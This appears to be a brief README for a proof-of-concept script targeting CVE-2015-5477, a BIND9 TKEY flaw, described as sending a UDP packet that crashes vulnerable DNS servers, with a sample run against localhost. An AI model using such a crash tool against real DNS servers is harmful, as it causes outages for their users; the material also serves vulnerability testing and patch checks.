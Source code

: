 PoC code for CVE-2015-5477 BIND9 TKEY DoS
=========================================
This code sends UDP packet that crashes vulnerable BIND9 DNS servers. 

```
elceef@osiris:~/tkeypoc$ ./tkeypoc.py localhost
CVE-2015-5477 BIND9 TKEY PoC
Sending packet to localhost ...
Done.
```
